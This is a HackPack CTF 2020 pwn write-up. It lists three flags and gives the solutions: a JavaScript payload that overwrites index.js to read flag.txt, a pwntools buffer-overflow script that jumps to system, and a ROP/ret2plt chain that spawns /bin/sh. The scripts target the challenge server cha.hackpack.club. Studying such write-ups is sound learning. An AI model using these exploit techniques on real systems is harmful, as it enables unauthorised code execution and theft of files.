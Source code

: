 # hackpack ctf 2020

## pwn

### jsclean

Flag: flag{Js_N3v3R_FuN_2_Re4d}

Workflow:
input a js filename and file content
the server will write the content to the js file
Finally, the server will call index.js which jsclean(beautify) the code you've just written

```lang=c
p = subprocess.run(['/usr/local/bin/node','index.js',
'-f',js_name],stdout=subprocess.PIPE);
```

Solution: overwrite the index.js to read flag.txt

#### payload

```lang=c
input filename: index.js
intput content:  var fs = require('fs'); data = fs.readFileSync("flag.txt"); console.log(data.toString())
```

### mouseTrap

flag: flag{C0nTr0l_S1Z3_4_$h3LL}

Basic BoF, without canary, PIE
Read function with overwritten buffer, call the call_me function to rce

**remark**: Simply jump to function call_me will cause movaps error, which implies stack alignment issue, so jump to the line which calls system_plt instead

#### payload

```lang=c
from pwn import *

r = remote('cha.hackpack.club',41719)
flag = p64(0x40071b)	# system_plt

payload = 'abcdefghijklmnopqrstuvwx' + p64(0x200)
context.arch='amd64'
r.recvuntil("Name: ")
r.send(payload)
r.recvuntil(": ")
bof = "b" * 0x18 + flag
r.send(bof)
r.interactive()

```

### Climb

flag: flag{w0w_A_R34L_LiF3_R0pp3r!}

ROP + ret2plt

call readplt and write binsh to bss section
then set rdi to the string /bin/sh and call system_plt

**Remark**: There is also stack-alignment(movaps error) issue in this challenge, so insert a ret in the ROP for stack alignment

#### payload

```lang=c
from pwn import *

pop_rdi = p64(0x0000000000400743)
pop_rdx = p64(0x0000000000400654)
pop_rsi_r15 = p64(0x0000000000400741)
ret = p64(0x00000000004004fe)

bss = p64(0x601090)
callme = p64(0x0000000000400530)
readplt = p64(0x0000000000400550)

r = remote('cha.hackpack.club', 41702)
ropchain = flat(
	ret,	# movaps stack alignment
	pop_rdi,
	p64(0x0),
	pop_rdx,
	p64(0x8),
	pop_rsi_r15,
	bss,
	p64(0x0),
	readplt,
	pop_rdi,
	bss,
	callme
)

payload = 'a' * 40 + ropchain

r.recvuntil("? ")
r.send(payload)
r.send("/bin/sh\0")
r.interactive()
```

### Humpty Dumpty's SSH Account

**Failed**

Shell, bash command, try to become superuser
